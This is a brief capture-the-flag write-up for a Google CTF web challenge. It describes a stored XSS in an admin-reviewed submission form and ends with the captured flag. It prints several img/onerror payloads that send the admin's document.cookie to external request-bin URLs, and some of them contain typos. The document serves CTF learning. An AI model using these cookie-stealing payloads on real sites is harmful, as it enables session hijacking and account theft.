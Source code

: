 # Apporach
- Upon first glance, we see that the target website `https://govagriculture.web.ctfcompetition.com/` provides a form submission area, and the admin page. However, the admin page link redirects user back to the home page.
- When I tried to submit a test post, I was given the following message "Your post was submitted for review. Administator will take a look shortly". This hints to an XSS vulnerability that requaire us to steal the cookie of the admin.
- To achieve that, I found an online HTTP request bin, and used that link to build the following exploit:
```javascript
hi <img src = "ADDRESS?session="+document.cookie>
<img src =asdf onerror="$.get('http://requestbin.net/r/tmq0k1tm?'+ bota(document.cookie))>

hi <img src = "https://postb.in/1563933120604-6338160349987?session="+document.cookie>
<img src =asdf onerror="$.get('https://postb.in/1563933120604-6338160349987?'+ bota(document.cookie))>
```
- Upon inspecting the HTTP request sent to the request bin, I was able to see the flag
# Flag
CTF{8aaa2f34b392b415601804c2f5f0f24e}
